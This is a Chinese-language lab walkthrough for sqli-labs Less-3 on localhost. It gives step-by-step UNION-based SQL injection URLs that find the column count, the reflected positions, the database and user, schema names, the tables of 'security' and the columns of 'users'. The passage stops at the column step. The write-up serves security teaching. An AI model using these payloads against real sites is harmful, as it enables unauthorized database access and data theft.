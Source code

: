 <h3>**第二步：查询字段数**</h3>
猜的话，使用二分法往下猜

http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=1')  order by 3--+
（3的时候正常回显，3以下就都能回显，现在应该往上猜）

 
http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=1')  order by 4--+
（4的时候报错了，说明是3了）

 

<hr/>
<h3>**第三步：判断回显位**</h3>
使用联合查询union
将id赋值为假（eg：id=-1）
http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,2,3--+

 
 报错回显2，3
说明第2，3个位置可以报错回显查询
<hr/>

<h3>**第四步：查询数据库的基本信息**</h3>
在第2，3列输入需要查询的命令
http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,database(),user()--+
报错回显

 

<hr/>

<h3>**第五步：爆数据库名**</h3>

http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,2,group_concat(schema_name) from information_schema.schemata--+

 

<hr/>


<h3>**第六步：爆数据库表名**</h3>

http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

 
后面的表名'security'也可以直接用database() 
是一样的效果
http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+

 

<hr/>


<h3>**第七步：爆字段名**</h3>

http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

<hr/>
 